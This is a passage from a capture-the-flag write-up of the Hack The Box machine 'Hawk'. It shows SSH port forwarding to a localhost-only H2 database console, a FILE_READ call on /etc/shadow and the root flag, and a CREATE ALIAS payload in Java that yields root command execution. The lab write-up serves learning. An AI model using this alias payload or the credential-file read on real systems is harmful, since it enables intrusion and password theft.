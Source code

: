<span style="color:Green">Seems allowed when executed from the localhost!</span> However, we don't have access to a web browser on Hawk. This is why we need to use SSH port forwarding as follows: `ssh -L 9000:localhost:8082 daniel@10.10.10.102`

The english version is: "**Forward** everything I send to port **127.0.0.1:9000** to **10.10.102:8082**".

<span style="color:Red">Now, we should be able to access the H2 database console from our own web browser.</span>


### H2 Database Console

![H2 Database]({{ "/assets/2018-12-01/h2-db.png" | absolute_url }} "H2 database")

When trying to connect to the **default database** with **default credentials**, it returns an error. <span style="color:Green">But what if we try to connect to a new database?</span>

![H2 New db]({{ "/assets/2018-12-01/h2-boiteaklou.png" | absolute_url }} "H2 New db")

I changed the **database URL** to a non-existing database and the connection test returns <span style="color:Red">"Success"</span>. Now, <span style="color:Green">I can connect to this new database</span>. From there, I can **execute H2 functions** like `FILE_READ('/etc/shadow',NULL)` for instance.

![H2 File read]({{ "/assets/2018-12-01/h2-fileread.png" | absolute_url }} "H2 File read")

Replace **/etc/shadow** by **/root/root.txt** and you'll <span style="color:Green">get the root flag!</span> :checkered_flag:

Ok we can read protected files, but <span style="color:Red">can we get a root shell?</span>

### Getting a Root Shell

Still connected to our *boiteaklou database*, we can **create an alias** with the following command:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
```

Then, <span style="color:Green">we can trigger the code execution</span> by **calling this alias** and specifying our command as an argument:

![H2 RCE]({{ "/assets/2018-12-01/h2-rce.png" | absolute_url }} "H2 RCE")

<span style="color:Green">It's kind of a root shell!</span> If you want something more interactive, it can be done easily from what we have and I'm sure you will find a way :wink:

I hope you enjoyed this writeup and see you next time guys!


<p id="signature">BoiteAKlou :hammer:</p>
